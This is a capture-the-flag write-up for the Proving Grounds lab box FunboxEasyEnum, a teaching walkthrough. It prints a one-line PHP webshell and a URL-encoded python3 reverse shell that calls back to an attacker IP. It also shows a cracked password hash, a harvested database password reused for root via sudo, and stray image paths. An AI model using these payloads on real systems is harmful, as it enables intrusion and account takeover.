

# PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`



We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

pg_fbee_cmd.png

And confirm execution

pg_fbee_id.png

Lets issues a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the loacl.txt flag in `/var/www`

pg_fbee_local.png

### Privilege Escalation

Loading linpeas we find tha password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

pg_fbee_root.png

Thanks for following along!

-Ryan

--------------------------------------------
